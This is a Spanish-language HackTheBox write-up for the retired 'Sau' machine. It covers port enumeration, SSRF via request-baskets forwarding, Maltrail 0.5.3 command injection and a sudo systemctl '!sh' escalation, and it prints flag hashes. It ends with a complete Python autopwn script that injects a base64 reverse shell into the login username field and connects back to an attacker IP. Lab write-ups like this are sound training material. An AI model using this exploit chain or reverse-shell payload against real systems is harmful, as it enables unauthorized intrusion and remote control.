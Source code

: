 ```yaml
---
title: Sau
layout: page
permalink: /HTB_Sau
---
```


<h2 class="amarillo">HackTheBox - Sau WriteUp - Máquina retirada</h2>
<div id="logos" style="text-align: center;">
  <img src="/assets/images/HTB/Sau/Sau.png" alt="under" oncontextmenu="return false;">
</div>


Encendemos la maquina Sau y nos da la direccion IP 10.129.229.26, probamos a lanzarle 5 trazas ICMP y de paso mirar el TLL para identificar si estamos frente a una maquina Linux o Windows

![[HTB/Machines/Sau/Images/1.png]]

En base al TTL vemos un valor de 63 por tanto estamos frente a una maquina Linux

# Enumeracion

Comenzamos enumerando los puertos que esten abiertos para la maquina utilizando nmap

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.229.26
```

Y vemos que la maquina tiene los puertos 22 y 55555
![[HTB/Machines/Sau/Images/2.png]]

Probamos a analizar con nmap con una serie de scripts basicos de reconocimiento y identificando la version y servicio que corren para cada uno de estos puertos
![[HTB/Machines/Sau/Images/3.png]]

Vemos que el puerto 55555 presenta un servicio http entonces intentamos enumerarlo con whatweb pero no encontramos informacion relevante
![[HTB/Machines/Sau/Images/4.png]]

Seguido abrimos la pagina desde el navegador
![[HTB/Machines/Sau/Images/5.png]]

Y vemos que tenemos la capacidad de crear baskets, y mirando el codigo fuente de la pagina vemos que la pagina se comunica con un /api/baskets

![[HTB/Machines/Sau/Images/6.png]]


Pero antes seguimos con la creacion del basket para obtener el token
![[HTB/Machines/Sau/Images/7.png]]

```
0XRfH5GKhrDM78SaDK8osM1C4iDzlUU6OIstqTqeKn5-
```

La pagina nos pide enviar requests HTTP al basket
![[HTB/Machines/Sau/Images/8.png]]

Si le mandamos una peticion GET tendremos un codigo de estado exitoso
![[HTB/Machines/Sau/Images/9.png]]
Y en la web podremos ver la informacion de la peticion

![[HTB/Machines/Sau/Images/10.png]]

aqui el vector de ataca esta en que la pagina permite que nuestros baskets tengan un redirect de tipo forwarding del cual podremos aprovecharnos para crear un script

![[10.5.png]]

Este es un exploit que traimos de Github buscando vulnerabilidades asociadas a los baskets y como nos permite crear un Forwarding, hacemos que el basket apunte a nuestra direccion IP

![[HTB/Machines/Sau/Images/11.png]]

Aprovechandonos del Forwarding en los Baskets para enumerar contenido interno de la maquina vemos que cambiar el forwarding al puerto 80 interno me permite ver el contenido del puerto filtrado 80:
![[HTB/Machines/Sau/Images/12.png]]

Pero mas alla de poder listar contenido la idea es conseguir una consola interactiva
![[12.5.png]]

Ejecutando el script obtendremos la reverse shell y estaremos dentro de la maquina
![[HTB/Machines/Sau/Images/13.png]]

Enumerando un poco el sistema encontraremos archivos de configuracion
# Escalada

1b6815788fcc3a4525ab2a80d97e5f2e

Mirando los privilegios que podamos tener asignados a nivel de sudoers vemos que podemos ejecutar systemctl

![[HTB/Machines/Sau/Images/15.png]]

Vemos que estamos frente a una version vulnerable de systemctl ya que podemos ejecutar la instruccion `!sh` para conseguir una consola interactiva
![[HTB/Machines/Sau/Images/16.png]]

8a1980f272a3103cc1300d260db9e888

De paso compartir el script autopwn

![[Pasted image 20250722234146.png]]

```python
#!/usr/bin/env python3
# Author: Juan Garcia aka liandd
import sys
import signal
from termcolor import colored
import argparse
import random
import string
import threading
from pwn import *
import subprocess
import requests
import base64


# Ctrl_C
def def_handler(sig, frame):
    print(colored("\n\n[!] Saliendo...\n", "red"))
    sys.exit(1)


# Ctrl_C
signal.signal(signal.SIGINT, def_handler)


def get_arguments():
    parser = argparse.ArgumentParser(
        description=colored("AutoPwn Sau", "red")+colored(" HTB", "green")+" by "+colored("liandd", "red"))
    parser.add_argument('-u', '--url', dest="URL",
                        help="Machine URL to Pwn (i.e --url http://10.129.229.26)")
    parser.add_argument('-i', '--ip', dest="IP",
                        help="IP address to get shell (i.e --IP 10.10.16.42)")
    parser.add_argument('-p', '--port', dest="PORT",
                        help="PORT to get shell (i.e --port 443)")

    options = parser.parse_args()
    if options.URL is None or options.IP is None or options.PORT is None:
        parser.print_help()
        print("\n\n")
        sys.exit(1)
    return options.URL, options.IP, options.PORT


# Variables Globales
request_basket_port = 55555
api_url = "/api/baskets/"


def createBasket(URL):
    p1 = log.progress("Creating Basket")
    p1.status("Loading")

    global basket_name
    basket_name = ''.join(random.choices(string.ascii_lowercase, k=6))

    payload = {"forward_url": "http://localhost", "proxy_response": True,
               "insecure_tls": False, "expand_path": True, "capacity": 250}

    p1.status(payload)

    headers = {
        "Content-Type": "application/json"
    }

    full_url = f"{URL}:{request_basket_port}{api_url}{basket_name}"

    try:
        r = requests.post(full_url, headers=headers, json=payload, timeout=5)
    except requests.exceptions.RequestException as e:
        print(f"[!] Request failed: {e}")
        sys.exit(1)

    if r.status_code == 201:
        p1.status("Succesfully uploaded payload!!")
        print(colored(f"[+] Basket created - {basket_name}", "green"))
    else:
        print(colored("\n\n[!] FATAL: Could not properly request %s. Is the server online?" %
              full_url, "red"))
        sys.exit(1)


def maltrailExploit(url, IP, PORT):
    target_url = url+'/login'
    p2 = log.progress(colored("Exploiting Maltrail 0.5.3", "red"))

    reverse = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("%s",%s));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\'' % (
        IP, PORT)
    reverse_base64 = base64.b64encode(reverse.encode()).decode()
    command = f"curl '{target_url}' --data 'username=;`echo+\"{reverse_base64}\"+|+base64+-d+|+sh`'"
    os.system(command)


def main():
    URL, IP, PORT = get_arguments()
    createBasket(URL)

    basket_url = URL+':'+str(request_basket_port)+'/'+basket_name
    try:
        threading.Thread(target=maltrailExploit,
                         args=(basket_url, IP, PORT)).start()
    except Exception as e:
        print(colored(e, "red"))

    shell = listen(PORT, timeout=20).wait_for_connection()
    shell.interactive()


if __name__ == '__main__':
    main()
```